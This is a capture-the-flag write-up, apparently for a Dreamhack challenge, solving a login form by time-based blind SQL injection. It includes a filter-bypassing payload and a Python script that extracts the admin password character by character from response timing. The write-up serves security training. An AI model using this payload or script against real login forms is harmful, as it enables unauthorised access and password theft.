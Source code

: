 # solution

This challenge is definitely sqlI. You can use single comma **'** in username or password field to trigger the server and see the server response an error (so we know the place we put payloads) After that try a list of payloads about sqlI i saw that i can use sqlI based time to get the password, cause you need real password to access.
![alt text](image.png)<br>
And the passwd has 32 characters because of this:
![alt text](image-1.png)<br>
Here is my payload(after change to bypass filter)

```
' OR IF(ORD(SUBSTR(password, {i}, 1)) = {number} , BENCHMARK(10000000, MD5(1)), 0)#
```

But you are a lazy person like me, you can code to do it manually (or use burpsuite intruder if you dont want to code)

```
import requests
import time

answer = ''

cookies = {
    'session': 'eyJpZCI6eyIgYiI6InUyTVlnRnZzNzE0OUlOL0VqalRWMWc9PSJ9LCJ0cmllcyI6MH0.Zuvmww.BLU-CH0AvppU0VhN2bcALcmSWns'
}

url = 'http://host3.dreamhack.games:17186/login'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
}

chars = ['48','49','50','51','52','53','54','55','56','57','65','66','67','68','69','70','71','72','73','74','75','76','77','78','79','80','81','82','83','84','85','86','87','88','89','90',
'97','98','99','100','101','102','103','104','105','106','107','108','109','110','111','112','113','114','115','116','117','118','119','120','121','122',
      ]

def test_password_characters():
    global answer
    for i in range(1, 33):
        for number in chars:
            payload = f"' OR IF(ORD(SUBSTR(password, {i}, 1)) = {number} , BENCHMARK(10000000, MD5(1)), 0)#"
            data = {
                'username': 'admin',
                'password': payload
            }
            start_time = time.time()
            requests.post(url, headers=headers, data=data, cookies=cookies)
            end_time = time.time()
            time_done = end_time-start_time

            if time_done > 1.5:
                print(f"Found matching character: {chr(int(number))} at position {i} with {time_done}s")
                answer += chr(int(number))
                break

test_password_characters()

print(f"Found password: {answer}")

r = requests.post(url, headers=headers, data={'username': 'admin', 'password': answer}, cookies=cookies)
print(r.text)

```

and you have the flag:
![alt text](image-2.png)<br>

**note:**

1. You should run this python code twice of three times if first time you run this code isn't working because the internet, network, dreamhack server and other things relevant can make sqlI based time may not right.
2. you should use ascii or ord, cause the server seem not case-sensitive.
